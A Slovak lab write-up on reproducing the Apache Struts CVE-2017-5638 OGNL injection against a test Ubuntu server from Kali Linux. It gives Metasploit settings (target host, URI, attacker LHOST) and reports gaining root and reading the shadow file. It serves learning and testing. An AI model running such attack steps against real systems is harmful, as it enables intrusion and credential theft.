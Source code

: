 # Otestovanie zraniteľnosti Struts na Ubuntu 16.04.02

Zraniteľnosť CVE-2017-5638 sa týkala webového aplikačného rámca Struts, ktorý slúži na vytváranie webových
aplikácií v programovacom jazyku Java. Jednalo sa o verzie rámca Struts od 2.3.5 do 2.3.31 a od 2.5
po 2.5.10. Rámec Struts bol zraniteľný voči útoku *remote command injection*, kvôli nesprávnemu spracovaniu
hlavičky  Content-Type v požiadavke HTTP, čo umožňovalo vykonanie príkazov pod oprávneniami webového servera.

Zraniteľnosť vznikla kvôli analyzátoru Jakarta Multipart, ktorý slúži na odosielanie súborov.
Ak hodnota v hlavičke Content-Type nebola platná, čiže nezodpovedala očakávanému platnému typu,
vyhodí sa výnimka, ktorá sa následne použije na zobrazenie chybovej správy používateľovi. V tomto
prípade môžeme nastaviť hlavičku Content-Type na výraz v jazyku OGNL. Takto bolo možné spustiť OGNL príkazy,
ktoré následne spustili systémové volania.

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme postupovali podľa návodu
*[Exploiting Apache Struts with CVE-2017-5638](https://samsclass.info/124/proj14/p9xstruts.htm)*. Podľa návodu sme
nainštalovali webový server Apache Tomcat a Maven. Na záver sme na server vložili zraniteľný rámec Struts.

## Konfigurácia Kali Linux

Pre zaútočenie sme vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie Kali. Útok spustíme otvorením konzoly a spustením príkazu:

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou
`set RHOSTS 192.168.50.30` a cesta `set targeturi /struts2_2.3.15.1-showcase/showcase.action`, čo nám nastaví cestu k
zraniteľnej aplikácii Struts. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.31` a spustiť útok. 

Útok prebehne úspešne, dokonca dostaneme privilégiá *root*, čiže môžeme čítať súbor shadow.
